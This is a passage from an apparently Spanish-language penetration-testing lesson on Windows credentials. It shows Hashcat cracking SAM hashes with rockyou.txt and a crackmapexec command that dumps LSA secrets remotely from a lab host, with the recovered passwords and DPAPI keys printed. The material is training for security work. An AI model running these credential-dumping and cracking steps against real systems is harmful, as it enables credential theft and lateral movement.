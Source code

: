 ```r
Time.Started.....: Tue Dec 14 14:16:56 2021 (0 secs)
Time.Estimated...: Tue Dec 14 14:16:56 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    14284 H/s (0.63ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 5/5 (100.00%) Digests
Progress.........: 8192/14344385 (0.06%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Candidates.#1....: newzealand -> whitetiger

Started: Tue Dec 14 14:16:50 2021
Stopped: Tue Dec 14 14:16:58 2021
```

Podemos ver en la salida que Hashcat utilizó un tipo de ataque llamado [dictionary attack](https://en.wikipedia.org/wiki/Dictionary_attack) para adivinar rápidamente las contraseñas utilizando una lista de contraseñas conocidas (rockyou.txt) y tuvo éxito en descifrar 3 de los hashes. Tener las contraseñas podría ser útil para nosotros de muchas maneras. Podríamos intentar usar las contraseñas que desciframos para acceder a otros sistemas en la red. Es muy común que las personas reutilicen contraseñas en diferentes cuentas laborales y personales. Saber esta técnica que cubrimos puede ser útil en los compromisos. Nos beneficiaremos de usar esto cada vez que nos encontremos con un sistema Windows vulnerable y obtengamos derechos de administrador para descargar la base de datos SAM.

Ten en cuenta que esta es una técnica bien conocida, por lo que los administradores pueden tener salvaguardas para prevenir y detectarla. Podemos ver algunas de estas formas [documentadas](https://attack.mitre.org/techniques/T1003/002/) dentro del marco de ataque MITRE.

---

## Remote Dumping & LSA Secrets Considerations

Con acceso a credenciales con `local admin privileges`, también es posible que apuntemos a LSA Secrets a través de la red. Esto podría permitirnos extraer credenciales de un servicio en ejecución, tarea programada o aplicación que usa LSA secrets para almacenar contraseñas.

### Dumping LSA Secrets Remotely

```r
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

SMB         10.129.42.198   445    WS01     [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.

42.198   445    WS01     [+] WS01\bob:HTB_@cademy_stdnt!(Pwn3d!)
SMB         10.129.42.198   445    WS01     [+] Dumping LSA secrets
SMB         10.129.42.198   445    WS01     WS01\worker:Hello123
SMB         10.129.42.198   445    WS01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.42.198   445    WS01     NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
SMB         10.129.42.198   445    WS01     [+] Dumped 3 LSA secrets to /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.secrets and /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.cached
```
